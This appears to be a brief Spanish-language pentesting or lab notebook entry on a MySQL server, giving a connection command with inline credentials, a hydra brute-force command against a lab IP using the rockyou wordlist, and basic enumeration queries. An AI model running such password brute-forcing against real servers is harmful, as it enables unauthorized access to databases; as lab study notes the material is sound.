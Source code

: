 Servidor de base de datos

Si queremos conectarnos a un servidor mysql aplicar el siguiente comando:

```
mysql -h 172.17.0.2 -P 3306 -u capybarauser -p ie168
```

Si se quiere realizar fuerza bruta realizar lo siguiente con [[hydra]]:

```
hydra -l user -P /usr/share/KaliLists/rockyou.txt mysql://172.17.0.2 -t 64
```

Algunas consultas que pueden ser utilices son las siguientes:

```
SHOW DATABASES;

USE DB_NAME;

SHOW TABLES;

SELECT * FROM TABLE_NAME;
```
